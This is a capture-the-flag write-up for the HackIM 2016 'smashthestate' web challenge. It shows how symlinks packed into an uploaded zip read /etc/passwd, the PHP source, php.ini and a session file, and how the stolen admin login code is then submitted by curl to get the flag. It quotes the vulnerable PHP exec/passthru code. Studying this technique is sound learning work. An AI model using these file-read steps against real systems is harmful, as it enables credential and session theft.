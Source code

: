 ```yaml
---
layout: post
title:  "hackim 2016: smasththestate (web 400)"
author: f0rki
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** web
* **Points:** 400
* **Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
> Automated tools and bruteforcing will not help you solve this challenge.

## Write-up

We can login with the given credentials and upload a zip file. This zip file is
then unpacked and all the contents are `cat`ed.

When some archive (zip, tar or whatever) is unpacked the two things I try first
is: relative paths in the filename and symlinks. This time you could upload
symlinks. For this we must use the `-y` flag on the zip tool.

    $ ln -s /etc/passwd
    $ zip -y pwn.zip passwd

Upload and enjoy the passwd file. OK so we can read any file with the
webservers permission. Good start. Next we can use the vulnerability to get the
source of the site.

    $ ln -s ../../index.php
    $ zip -y pwn.zip index.php

And it happily dumps us the source code :) This is the vulnerable piece of code
that handles the zip upload:

    $tmp_file = '/var/www/html/tmp/upload_'.session_id();

    # ZipArchive may not be available
    # $zip = new ZipArchive;
    # $zip->open($_FILES['zipfile']['name']);
    # $zip->extractTo($tmp_file);
    exec('unzip -o '.$_FILES['zipfile']['tmp_name']. ' -d '.$tmp_file);
    echo "Zip contents: <br/>";
    passthru("cat $tmp_file/* 2>&1");
    exec("rm -rf $tmp_file");


Now how to get to the flag? It's easy to spot the interesting piece of code:

    $code = $_POST['code'];
    if (isset($code) && isset($_SESSION['login_code'])) {
        if ($code === $_SESSION['login_code'] ){
            echo "Flag: ";
            passthru("sudo /bin/cat /var/www/html/flag");
        }
        else {
            echo "Invalid code";
        }
    }

Apparently we are supposed to find the admin login code that is set in the
session. It is set in the following piece of code which we can trigger by
visiting `?page=admin_login_help`. It uses `openssl_random_pseudo_bytes` which
I assume is safe in terms of randomness.

    session_start();
    if(!isset($_SESSION['login_code']) ){
        $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
        echo "A login code has been emailed to the administrator. Once you have recieved it, please click <a href='?page=code_submit'>here</a>\n";
    }
    else {
        echo "There is already an active login code for this session";
    }

Let's find out how php is configured to store it's sessions. We can fetch the
active php.ini from `/etc/php5/apache2/php.ini`, again using the symlink in zip
vulnerability. From there we can see that it's stored in files under
`/var/lib/php5/`. So in my case I read the file
`/var/lib/php5/sess_a7l9q5dihoumkg02cjkagh8gj1` again using the zip symlink
vulnerability to get the login_code. Then it was simply a matter of submitting
the login code.

    $ curl 'http://54.152.101.3/?page=code_submit' \
        -H 'Cookie: PHPSESSID=a7l9q5dihoumkg02cjkagh8gj1'
        --data 'code=742aa277b035c96ef64cba0364c75e214596'

Also note that this will always work as soon as you have it, since sessions are
never destroyed and also the login code is never regenerated. At least they
force a new session upon login.

At first this returned nothing, so it seemed the flag file was empty or they
didn't configure sudo. Anyway after complaining on IRC and waiting a little,
the flag reading worked and it turned out to be:

    8e11a50ef762f924d7af9995889873e4

What a boring flag :(
